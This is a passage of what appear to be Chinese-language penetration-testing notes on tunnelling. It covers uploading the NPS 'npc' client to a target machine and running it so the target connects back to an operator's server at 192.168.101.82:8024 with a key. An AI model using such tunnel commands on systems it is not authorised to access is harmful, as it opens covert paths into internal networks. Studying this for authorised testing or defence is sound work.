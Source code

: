 然后控制台添加一个客户端，写上秘钥就好。

![image-20230804165945761](img/隧道技术/image-20230804165945761.png)

未上线状态

![image-20230804170053510](img/隧道技术/image-20230804170053510.png)

#### 客户端

这边操作就很简单，上传`npc`文件到目标及其，然后执行命令就好

```
npc.exe -server=192.168.101.82:8024 -vkey=1234
```

![image-20230804170232049](img/隧道技术/image-20230804170232049.png)
